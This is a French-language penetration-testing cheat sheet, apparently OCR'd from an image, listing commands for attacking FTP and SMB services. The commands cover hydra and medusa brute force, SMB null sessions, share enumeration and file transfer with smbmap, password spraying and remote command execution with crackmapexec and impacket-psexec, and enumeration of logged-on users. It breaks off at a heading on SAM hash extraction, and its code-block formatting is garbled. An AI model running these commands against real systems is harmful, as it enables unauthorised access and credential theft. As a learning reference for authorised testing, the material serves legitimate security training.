 ```shell

## Attaques des Services Courants

### Attaque FTP

### Connexion au serveur FTP en utilisant le client ftp
```bash
`ftp 192.168.2.142`
```shell
### Connexion au serveur FTP en utilisant netcat
```bash
`nc -v 192.168.2.142 21`
```shell
### Force brute du service FTP
```bash
`hydra -l user1 -P /usr/share/wordlists/rockyou.txt ftp://192.168.2.142`
```shell
### Force brute du service FTP
```bash
`medusa -U users.list -P pws.list -h $ip -M ftp -n 2121`
```shell
### Attaque SMB

### Test de session nulle contre le service SMB
```bash
`smbclient -N -L //10.129.14.128`
```shell
### Énumération des partages réseau en utilisant smbmap
```bash
`smbmap -H 10.129.14.128`
```shell
### Énumération récursive des partages réseau en utilisant smbmap
```bash
`smbmap -H 10.129.14.128 -r notes`
```shell
### Téléchargement d'un fichier spécifique depuis le dossier partagé
```bash
`smbmap -H 10.129.14.128 --download "notes\note.txt"`
```shell
### Téléversement d'un fichier spécifique vers le dossier partagé
```bash
`smbmap -H 10.129.14.128 --upload test.txt "notes\test.txt"`
```shell
### Session nulle avec rpcclient
```bash
`rpcclient -U'%' 10.10.110.17`
```shell
### Énumération automatisée du service SMB en utilisant enum4linux-ng
```bash
`./enum4linux-ng.py 10.10.11.45 -A -C`
```shell
### Pulvérisation de mot de passe contre différents utilisateurs depuis une liste
```bash
`crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!'`
```shell
### Connexion au service SMB en utilisant impacket-psexec
```bash
`impacket-psexec administrator:'Password123!'@10.10.110.17`
```shell
### Exécution d'une commande sur le service SMB en utilisant crackmapexec
```bash
`crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec`
```shell
### Énumération des utilisateurs connectés
```bash
`crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users`
```shell
### Extraction des hachages depuis la base de données SAM
```